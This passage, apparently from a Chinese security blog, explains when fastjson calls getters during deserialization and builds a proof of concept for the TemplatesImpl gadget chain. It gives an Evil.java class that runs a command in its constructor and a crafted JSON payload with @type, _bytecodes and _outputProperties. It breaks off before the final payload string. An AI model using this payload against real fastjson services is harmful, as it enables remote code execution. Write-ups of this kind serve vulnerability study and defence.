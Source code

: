 ![](/images/posts/app_sec/fastjson_getmethod_execute.png)


fastjson 会按如下条件判断反序列化的时候是否调用其 getter 函数:   
(1)函数名称大于等于 4  
(2)非静态函数  
(3)函数名称以get起始，且第四个字符为大写字母  
(4)函数没有入参  
(5)函数的返回类型满足如下之一:继承自Collection;继承自Map;是AtomicBoolean;是AtomicInteger;是AtomicLong.  
  
  getTransletInstance()的返回值Properties继承自Map，因此可以被成功调用

### 尝试构造POC
* 由于_class类型为AbstractTranslet类，因此我们构造的恶意类需要继承AbstractTranslet。

Evil.java
```java
package com.bi3g0.demo;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Evil extends AbstractTranslet {

    public Evil() throws IOException {
        Runtime.getRuntime().exec("calc.exe");
    }

    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    public static void main(String[] args) throws IOException {
        Evil evil = new Evil();
    }
}
```
* 然后将该类的class字节码赋值给Templateslmpl的_bytecodes字段，并且设置_outputProperties字段调用getOutputProperties (),我们构造恶意的jsonString如下：
`{"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl","_bytecodes":["evilCode"],"_outputProperties":{}}`
* 此外还应该要注意_name不能为空，否则会在getTransletInstance()函数中进行null返回，进而进行不到newInstance这一步，而且_tfactory这个类不能为null，否则在执行defineTransletClasses()这个函数的时候会抛异常，也会导致进行不到newInstance这一步。
最终设置jsonString为：